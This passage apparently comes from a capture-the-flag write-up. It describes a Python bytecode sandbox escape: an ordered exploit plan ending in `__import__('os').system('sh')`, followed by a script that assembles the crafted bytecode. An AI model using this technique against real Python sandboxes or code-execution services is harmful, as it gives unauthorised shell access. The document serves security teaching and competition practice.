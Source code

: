The final exploit is as follows.
1. Load the builtins module onto the stack
2. Pop off the stack until we reach the `input` string
3. Use the `input` string to get the `input` function from builtins
4. Store that function on the stack, call it, and store the result on the stack
5. Repeat 1-4 for `eval` 
6. Call `eval` function with `input` result as an argument
7. Execute arbitrary python like `__import__('os').system('sh')`

My code can be found in the challenge repository, but `Crazyman` and `woodwhale` from `no rev/pwn no life` has cleaner bytecode with a similar strategy, using `BUILD_TUPLE` instead of `BUILD_MAP`.
```python
import dis

def assemble(ops):
    cache = bytes([dis.opmap["CACHE"], 0])
    ret = b""
    for op, arg in ops:
        opc = dis.opmap[op]
        ret += bytes([opc, arg])
        ret += cache * dis._inline_cache_entries[opc]
    return ret

co_code = assemble(
    [
        ("RESUME", 0),
        ("LOAD_CONST", 115),
        ("UNPACK_EX", 29),
        ("BUILD_TUPLE", 28),
        ("POP_TOP", 0),
        ("SWAP", 2),
        ("POP_TOP", 0),
        ("LOAD_CONST", 115),
        ("SWAP", 2),
        ("BINARY_SUBSCR", 0),
        ("COPY", 1),
        ("CALL", 0),    # input
        
        ("LOAD_CONST", 115),
        ("UNPACK_EX", 21),
        ("BUILD_TUPLE", 20),
        ("POP_TOP", 0),
        ("SWAP", 2),
        ("POP_TOP", 0),
        ("LOAD_CONST", 115),
        ("SWAP", 2),
        ("BINARY_SUBSCR", 0),
        ("SWAP", 2),
        ("CALL", 0),    # exec
        
        ("RETURN_VALUE", 0),
    ]
)
print(co_code.hex())
```
